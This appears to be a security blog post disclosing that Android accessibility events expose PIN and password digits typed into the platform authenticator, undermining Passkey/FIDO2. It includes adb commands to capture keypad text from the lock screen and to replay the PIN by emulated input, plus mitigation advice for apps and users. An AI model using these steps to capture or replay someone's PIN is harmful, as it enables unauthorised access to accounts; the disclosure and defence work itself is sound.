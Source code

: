 ```yaml
---


title:  "Could I read your PIN/PASSWORD from platform authenticator?"

date:   2024-01-03 14:15:58

author: severus

categories: Security

tags: privacy android accessibility security

---
```


## Android Accessibility Service
Android provides accessibility service for disabilities people. This service can access all events on phone's screen. The security hole is that it can access platform authenticator's values: pin, password. It introduces downgrading from biometric to PIN/PASS and reduces the security of Passkey/Fido2 (builtin android support in app, not physical fido2 tokens).

## Reproduce the flaw

Android has UIAutomation class and command: uiautomator, I use uiautomator - it's same as UIAutomation class but built as binary. 

After enabling adb, on lock screen, run command: 
```sh
adb shell uiautomator events | grep Text
``` 

The result looks like:
```sh
20:01-03 16:11:57.531 EventType: TYPE_VIEW_CLICKED; EventTime: 387545686; PackageName: com.android.systemui; MovementGranularity: 0; Action: 0; ContentChangeTypes: []; WindowChangeTypes: [] [ ClassName: android.view.ViewGroup; Text: [DEF, 3]; ContentDescription: 3; ItemCount: -1; CurrentItemIndex: -1; Enabled: true; Password: false; Checked: false; FullScreen: false; Scrollable: false; ImportantForAccessibility: true; AccessibilityDataSensitive: false; BeforeText: null; FromIndex: -1; ToIndex: -1; ScrollX: 0; ScrollY: 0; MaxScrollX: 0; MaxScrollY: 0; ScrollDeltaX: -1; ScrollDeltaY: -1; AddedCount: -1; RemovedCount: -1; ParcelableData: null; DisplayId: 0 ]; recordCount: 0
```
The plain key [DEF, 3] was there. Now, the accessibility service probably can read the input from platform authenticator. With key emulation, it can authenticate as user on screen with Passkey/Fido2 now.

```sh
adb shell input tap x y - switch from biometric to pin/password geometry.
adb shell input text 13337 - input pin/password.
```

## Prevention
I tested with: [Cake By VPBank](https://play.google.com/store/apps/details?id=xyz.be.cake&hl=en&gl=US) and [VCB Digi Bank](https://play.google.com/store/apps/details?id=com.VCB&hl=en&gl=US), the both are implemented correctly to prevent the service accessing password field:  
+ In VCB Digi Bank, they dispatch the accessibility events by delegating events.  
+ In Cake By VPBank, they show dot on accessibility Text value. But in fido2 mode - by default, it calls platform authenticator, still exposed pin/password to accessibility service. The password field is no matter here. 

It's very clear, the application must protect itself from accessibility service. 

Almost banking applications I tested do not have enough protection. 

The question is why google does not prevent accessibility obtaining the pin/password from authenticator platform. It's system level and it introduces new risk: downgrading from biometric to pin/password. 

Google promotes Passkey as new modern authentication method, but leaves the risk with user when platform authenticator is used. The application, indeed, must use biometric only by using [UserVerificationMethod](https://developers.google.com/android/reference/com/google/android/gms/fido/fido2/api/common/UserVerificationMethods). There is no other solution if you use platform authenticator until Google decides patching this issue. 

I have another solution, using physical tokens, which authenticate via NFC/Bluetooth like: VinCSS fido2 keys or Yubikey. 

## Conclusion
Some malwares still exploit this flaw to obtain pin/password to perform further privileged actions. 



